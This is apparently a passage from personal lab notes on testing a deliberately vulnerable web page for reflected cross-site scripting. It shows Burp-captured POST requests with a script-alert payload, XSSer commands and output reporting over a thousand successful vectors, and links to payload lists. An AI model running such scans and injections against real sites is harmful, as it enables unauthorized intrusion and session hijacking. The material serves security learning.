Nmap done: 1 IP address (1 host up) scanned in 6.54 seconds
```


`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /index.php?page=dns-lookup.php HTTP/1.1
Host: 192.35.189.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.35.189.3/index.php?popUpNotificationCode=SL1&page=dns-lookup.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Connection: close
Cookie: PHPSESSID=gmdic1u6hl06kvbh62eldc4kb2; showhints=1
Upgrade-Insecure-Requests: 1

target_host=TEST&dns-lookup-php-submit-button=Lookup+DNS📌
```
`HTTP Request`:
```http
POST /index.php?page=dns-lookup.php HTTP/1.1
Host: 192.35.189.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.35.189.3/index.php?popUpNotificationCode=SL1&page=dns-lookup.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Connection: close
Cookie: PHPSESSID=gmdic1u6hl06kvbh62eldc4kb2; showhints=1
Upgrade-Insecure-Requests: 1

target_host=<script>alert("TEST");</script>&dns-lookup-php-submit-button=Lookup+DNS📌
```


`xsser --url 'http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'`:
```
===========================================================================

XSSer v1.8[2]: "The Hiv3!" - (https://xsser.03c8.net) - 2010/2019 -> by psy

===========================================================================
Testing [XSS from URL]...
===========================================================================
===========================================================================
[*] Test: [ 1/1 ] <-> 2024-12-10 20:18:14.148104
===========================================================================

[+] Target: 

 [ http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php ]

[...]

===========================================================================
[*] Final Results:
===========================================================================

- Injections: 1
- Failed: 0
- Successful: 1
- Accur: 100.0 %

===========================================================================
[*] List of XSS injections:
===========================================================================

You have found: [ 1 ] possible (without --reverse-check) XSS vector(s)!

---------------------

[+] Target: http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php | target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS
[+] Vector: [ target_host ]
[!] Method: URL
[*] Hash: 6a5e708e01c3f61e9465aa7e78b02c51
[*] Payload: target_host=%22%3E6a5e708e01c3f61e9465aa7e78b02c51&dns-lookup-php-submit-button=Lookup+DNS📌
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]📌
[!] Status: XSS FOUND! 
 --------------------------------------------------
```

`xsser --url 'http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp '<script>alert("TEST");</script>'`:
```
[...]

===========================================================================
[*] Final Results:
===========================================================================

- Injections: 1
- Failed: 0
- Successful: 1
- Accur: 100.0 %

===========================================================================
[*] List of XSS injections:
===========================================================================

You have found: [ 1 ] possible (without --reverse-check) XSS vector(s)!

---------------------

[+] Target: http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php | target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS
[+] Vector: [ target_host ]
[!] Method: URL
[*] Hash: bf9ba23e6263a0bb71ab5066c93a0d74
[*] Payload: target_host=%22%3Ebf9ba23e6263a0bb71ab5066c93a0d74&dns-lookup-php-submit-button=Lookup+DNS
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]
[*] Final Attack: target_host=%3Cscript%3Ealert%28%22TEST%22%29%3B%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS📌
[!] Status: XSS FOUND! 
 --------------------------------------------------
```

`xsser --url 'http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto --reverse-check`:
```
[...]

===========================================================================
[*] Final Results:
===========================================================================

- Injections: 1291📌
- Failed: 0
- Successful: 1291📌
- Accur: 100.0 %

===========================================================================
[*] List of XSS injections:
===========================================================================

You have found: [ 1291 ] XSS vector(s)! -> [100% VULNERABLE]📌

---------------------

[Info] Aborting large screen output. Generating report: [ XSSreport.raw ]

-------------------------
```

`xsser --gtk` > `Intruder` > `Url: http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php` > `Configure` = `Type of connection(s): POST: target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS` = `Bypasser(s)` > `Hexadecimal with semicolons: Enabled` = `Exploit` > `Exploiting: Manual: <script>alert("TEST");</script>` > `Aim!`


---
---

## Tools and Frameworks

- [XSSer](https://github.com/epsylon/xsser)
	Cross Site "Scripter" (aka XSSer) is an automatic framework to detect, exploit and report XSS vulnerabilities in web-based applications.
	It provides several options to try to bypass certain filters and various special techniques for code injection.
	XSSer has pre-installed (>1300 XSS) attacking vectors and can bypass-exploit code on several browsers/WAFs.

---
---

## Resources and References

- [Cross Site Scripting (XSS) Vulnerability Payload List](https://github.com/payloadbox/xss-payload-list)
- [0day Today](https://0day.today/)
- [MDN Web Docs - JavaScript Reference](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference)
- [W3Schools - JavaScript Tutorial](https://www.w3schools.com/js/)

---
---
